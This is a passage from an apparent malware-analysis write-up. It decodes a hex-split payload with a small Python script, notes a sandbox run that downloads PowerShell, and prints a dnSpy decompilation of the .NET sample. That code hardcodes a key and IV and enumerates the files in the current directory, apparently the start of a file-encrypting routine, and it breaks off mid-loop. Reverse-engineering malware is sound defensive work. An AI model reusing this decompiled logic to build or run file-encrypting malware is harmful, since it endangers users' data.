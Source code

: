 Using the following script we decode it to a file and its an executable:

```py
with open("C:\\Users\\Admin\\Documents\\Code\\Python\\payload", 'r') as file:
    payload = file.read().split("&H")
print(''.join(payload))
```

Uploading the file to <https://any.run/> a powershell.exe is downloaded:

![Alt text](image-9.png)

Reversing with dnspy we get the following:

```net
// b
// Token: 0x06000003 RID: 3 RVA: 0x000020FC File Offset: 0x000002FC
private static void a(string[] A_0)
{
	string text = "Lp3jXluuW799rnu4";
	byte[] array = new byte[]
	{
		0,
		1,
		2,
		3,
		4,
		5,
		6,
		7
	};
	<Module>.h = 2081625616;
	byte[] array2 = array;
	string currentDirectory = Directory.GetCurrentDirectory();
	<Module>.k = -1592258590;
	<Module>.a = null;
	int num = 1386028750;
	int l = -1437277352;
	<Module>.n = -1592516334;
	<Module>.l = l;
	<Module>.d = num;
	string[] files = Directory.GetFiles(currentDirectory, "*.*");
	<Module>.n = 2136656571;
	string[] array3 = files;
	<Module>.d = null;
	string[] array4 = array3;
	int num2 = 0;
	bool flag;
	<Module>.g = flag;
	string text2;
	for (;;)
	{
		<Module>.k = 1326660401;
		<Module>.e = 1818084011;
		int num3 = num2;
```